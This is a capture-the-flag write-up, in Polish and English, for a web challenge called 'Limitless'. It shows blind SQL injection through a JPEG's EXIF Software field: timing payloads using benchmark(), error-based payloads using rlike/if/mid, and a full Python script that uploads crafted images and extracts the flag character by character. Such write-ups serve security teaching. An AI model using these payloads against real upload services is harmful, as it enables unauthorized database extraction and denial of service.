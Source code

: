 ﻿## Limitless (web, 200p)

### PL

W zadaniu dostajemy link do webowego uploadera plików, oraz informacje, że mamy wyciągnąć jakieś informacje z tabeli `flag`.
Analiza uploadera oraz jego działania pozwala zauważyć, że uploader po załadowaniu pliku pobiera z niego dane `exif` a następnie na podstawie pola `exif.primary.Software` wyszukuje w bazie danych oraz wyświetla zdjęcia utworzone tym samym oprogramowaniem.

Zastosowaliśmy więc technikę `SQL Injection` poprzez pole exif, za pomocą skryptu:

```python
    img = pexif.JpegFile.fromFile("file.jpg")
    img.exif.primary.Software = '"&&' + sql + '#'
    img.writeFile('file.jpg')
```

Który dopisywał nasze zapytanie do pliku i przygotowywał je do wykonania. Zapytanie trafiało do klauzuli `where` zaraz za porównaniem ze stringiem. Niestety mieliśmy twarde ograniczenie wynoszące 50 znaków dla tego pola exif, co mocno ograniczało nasze możliwości.
Dodatkowo wykluczona była operacja union a tabela z której dokonywano selekcji miała 0 rekordów.

W związku z tym postanowiliśmy wykorzystać atak `remote timing` na bazę danych wraz z testowaniem pojedyńczych znaków jedynego elementu tabeli flags (gdzie spodziewaliśmy się flagi) - wykorzystać operator AND w wersji short-circuit i jeśli porównanie symbolu było niepoprawne wykonywaliśmy długo liczący się kod (sleep nie był dostępny). Z racji małej liczby znaków nie mogliśmy użyć funkcji `substring` ani `mid`, musieliśmy opierać się o przesuwające się okno ze znamym fragmentem flagi. Kod sql to:

```sql
benchmark(~-((select*from flag)like'%" + window + "%'),1)
```

Funkcja benchmark wykonuje podany kod tyle razy ile wynosi pierwszy argument. W naszym przypadku wartość boolean jest zamieniana na liczbę za pomocą unarnego minusa a następnie bity są negowane. Problem z tym roziązaniem polegał na tym, że taki benchmark wykonuje się bardzo (!) długo a w naszym kodzie uruchamiamy go dla każdego nie pasującego symbolu, więc dla każdego zgadywanego znaku pesymistycznie prawie 40 razy.

Skutek był taki, że położyliśmy serwer 5 razy uzyskując raptem 2/3 flagi a organizatorzy postanowili zablokować funkcję benchmark.

Nasze drugie podejście wykorzystało inny sposób - logowanie błędów mysql. Użyliśmy zapytania:

```sql
rlike(if(mid((select*from flag),"+NUMER_ZNAKU+",1)='"+ZNAK+"','',1))
```

Dzięki czemu w zależności od spełnienia warunku skrypt wykonywał się poprawnie lub zgłaszał błąd składniowy.
Cały skrypt odzyskujący flagę:

```python
import pexif, subprocess

​def execute_sql(sql):
    img = pexif.JpegFile.fromFile("/var/www/html/img.jpg")
    img.exif.primary.Software = '"' + sql + '#'
    img.writeFile('/var/www/html/imgdest.jpg')
	return subprocess.check_output('curl -s -F submit=1 -F file=@/var/www/html/imgdest.jpg http://10.13.37.3', shell=True)

for i in range(1, 999):
    for c in (range(48, 58) + range(65, 91) + range(97, 126)):
        if 'expression' in execute_sql("rlike(if(mid((select*from flag),"+str(i)+",1)='"+chr(c)+"','',1))"):
            print chr(c),
            break
```

A jego wynik:

`DCTF{09D5D8300A7ADC45C5D434BB467F2A85}`

[ENG](#eng-version)

### ENG version

In the task we get a link to a web file upoloader and an information tha we need to extract some data from `flag` table.
Analysis of the uploader and its behaviour reveales that the uploader, after loading the file, collected `exif` data and then based on `exif.primary.Software` finds and displays other pictures made with the same software.

We used `SQL Injection` via exif field using script:

```python
    img = pexif.JpegFile.fromFile("file.jpg")
    img.exif.primary.Software = '"&&' + sql + '#'
    img.writeFile('file.jpg')
```

This script was adding the query to the file and preparing it for execution. The query was then placed in `where` clause, right after the comparison with a string. Unformtunately we hade a hard limit of 50 characters for the query, which was a strong limiting factor. On top of that it was impossible to use `union` and the table on which the selection was executed had 0 rows.

Therefore we decided to use `remote timing` attack on the database with testing single character of the sole element of flags table (where we expected to find the flag) - using short-circuit AND operator and if the condition was not matching we were executing a long running task (sleep was unavailable). Since the characters number limitation we could not use `substring` or `mid` functions and we had to relay on a moving window with known flag prefix/suffix. The SQL code was:

```sql
benchmark(~-((select*from flag)like'%" + window + "%'),1)
```

Benchmark function executes given code as many times as stated in the first argunent. In our case boolean is converted to int via unary minus and then bits are negated. The problem was that this benchmark executes really long (!) and in our code we we run it for every non matching symbol, so for any guessed character we might use almost 40 of those processes.

As a result we crashed the server 5 times and still got only 2/3 of the flag and organisers finally decided to block benchmark function.

Our second attempt was using a different approach - exploiting errors in mysql. We used:

```sql
rlike(if(mid((select*from flag),"+NUMER_ZNAKU+",1)='"+ZNAK+"','',1))
```

And therefore the script would execute normally or crash with a syntax error, depending on the condition value.
Whole script for extracting the flag:

```python
import pexif, subprocess

​def execute_sql(sql):
    img = pexif.JpegFile.fromFile("/var/www/html/img.jpg")
    img.exif.primary.Software = '"' + sql + '#'
    img.writeFile('/var/www/html/imgdest.jpg')
	return subprocess.check_output('curl -s -F submit=1 -F file=@/var/www/html/imgdest.jpg http://10.13.37.3', shell=True)

for i in range(1, 999):
    for c in (range(48, 58) + range(65, 91) + range(97, 126)):
        if 'expression' in execute_sql("rlike(if(mid((select*from flag),"+str(i)+",1)='"+chr(c)+"','',1))"):
            print chr(c),
            break
```

And the result.

`DCTF{09D5D8300A7ADC45C5D434BB467F2A85}`